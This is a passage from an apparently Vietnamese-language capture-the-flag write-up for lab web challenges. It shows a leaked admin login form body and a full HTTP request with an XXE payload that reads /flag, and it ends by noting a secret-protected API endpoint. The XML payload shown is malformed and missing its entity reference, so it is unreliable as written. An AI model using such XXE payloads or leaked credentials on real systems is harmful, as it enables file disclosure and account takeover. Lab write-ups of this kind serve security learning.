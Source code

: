 ```
_token=odnes8Qm3lep4n0E6nxN0zOlz0GBgS4tz6SQfxvY&email=nginxatsu-adm-01%40makelarid.es&password=adminadmin1
```

![image](https://hackmd.io/_uploads/SJYS0GtT0.png)

flag: `HTB{ng1ngx_r34lly_b3_sp1ll1ng_my_w3ll_h1dd3n_s3cr3ts??}`


## baby WAFfles order

Ta có thể thấy là đối với trang web này sẽ có một form để chúng ta order sau đó thì hiển thị nội dung là food đã được order thành công -> ban đầu hướng đến các loại là ssti và xxe -> sau khi fuzz không có ssti của php thì ta chuyển qua xxe -> thử chuyển dạng data json thành xml và thành công -> dùng xxe để hiển thị nội dung flag bằng system:

```
POST /api/order HTTP/1.1
Host: 83.136.255.40:44465
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://83.136.255.40:44465/
Content-Type: application/xml
Content-Length: 172
Origin: http://83.136.255.40:44465
Connection: close
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag"> ]>
<order>
    <table_num>100</table_num>
    <food>
    
</order>
```

![image](https://hackmd.io/_uploads/ByyrrXYaA.png)


flag: `HTB{wh0_l3t_th3_XX3_0ut??w00f..w00f..w00f..WAFfles!}`


## baby todo or not todo

Vị trí của flag:

![image](https://hackmd.io/_uploads/Syg4QLK60.png)

nằm trong bảng todos là một note todo do admin ghi.

Ta có thể thấy một api chưa được sử dụng đó là /list/all/?secret=....
